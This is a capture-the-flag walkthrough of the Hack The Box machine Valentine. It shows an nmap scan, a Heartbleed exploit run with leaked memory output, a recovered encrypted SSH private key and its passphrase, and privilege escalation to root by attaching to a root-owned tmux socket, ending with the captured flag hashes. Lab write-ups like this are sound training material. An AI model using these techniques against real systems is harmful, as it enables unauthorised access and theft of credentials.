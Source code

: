 ```yaml
---
layout: offsec
category: [offsec]
---
```


![banner](/assets/images/valentine.png)

# Valentine: 10.10.10.79

## Scanning:
<br>

```bash
nmap -A -oA nmap 10.10.10.79

Starting Nmap 7.01 ( https://nmap.org  ) at 2018-05-06 20:04 EDT
Nmap scan report for 10.10.10.79
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp   open     http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp  open     ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2018-05-07T00:05:15+00:00; 0s from scanner time.
2251/tcp filtered dif-port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.08 seconds
```

<br>

## Gaining Access:

<br>

First thing first let's see what's on those HTTP(S) applications and run a `dirb`.

![](/assets/images/79_index.png)

_index.html_
```html
<center><img src="omg.jpg"/></center>

```

Well, look what we got. A nice picture with a heart bleeding. The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet

During OSCP exam, you can use `metasploit` for only one machine. Thus, I decided to use this <a href='https://github.com/kevincarroll7737/tools/heartbleed-PoC'>tool</a>.

```bash
python heartbleed-exploit.py 10.10.10.79;head out.txt -n 50; rm out.txt
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 19  mV0aGVoeXBlCg==.
  0160: D1 9C 3E AE 23 57 C6 09 0B 9D E3 01 7F F4 92 78  ..>.#W.........x
  0170: F7 5F 65 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ._e.............

echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='|base64 -d                  
heartbleedbelievethehype
```

I've got stuck for a while shuffling the memory. Finally, I discovered the path `/dev` by running `nikto -host 10.10.10.79` in the HTTPS application which gave me the encoded `hype_key`.

_hype_key.txt_
```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

Well, the initial `nmap` shows that the ssh server accepts `RSA-2048`.

```bash
chmod 600 hype_key.txt
ssh -i hype_key.txt hype@10.10.10.79
Enter passphrase for key 'hype_key.txt': heartbleedbelievethehype

Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
 * Documentation:  https://help.ubuntu.com/
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun May  6 17:56:59 2018 from 10.10.15.75
hype@Valentine:~$ 
```



<br>

## Maintaining Access:

<br>
```
N/A
```

<br>

## Acheive Tasks:

<br>

```bash
#Localhost
sudo scp -i hype_key.txt ~/git/tools/linenum.sh hype@10.10.10.79:~/
Enter passphrase for key 'hype_key.txt': 
linenum.sh                                                             100%   41KB  41.2KB/s   00:0o
```

Once the `linenum.sh` was on the `valentine host` I ran it and discovered that `tmux` was installed. 

I fist ran, `tmux -V` to see if this version was vulnerable to `utmp priv esc`, but it wasn't. 

`Tmux` is a strong shell emulator. It gives you the opportunity to leave terminal session and come back to them without interrupting the running process by creating a persistent socket `-S` stored localy. 



```bash
#Get the root tmux socket
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
hype       4406  0.0  0.0  13576   936 pts/0    S+   19:41   0:00 grep --color=auto tmux

#Connect to this socket
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype~ id
uid=0(root) gid=0(root) groups=0(root)
oot@Valentine:/home/hype~ cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
hype@Valentine:~$ find . -iname user.txt
./Desktop/user.txt
hype@Valentine:~$ cat ./Desktop/user.txt 
e6710a5464769fd5fcd216e076961750
```

So, how to manage `root tmux sockets` on a public server? Simple, make sure that this socket is a `root` dirctory

```bash
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
root       4588  0.0  0.1  26420  1688 ?        Ss   19:57   0:00 tmux -S /root/test
hype       4653  0.0  0.0  13576   936 pts/0    S+   19:57   0:00 grep --color=auto tmux
hype@Valentine:~$ tmux -S /root/test
failed to connect to server: Permission denied
```
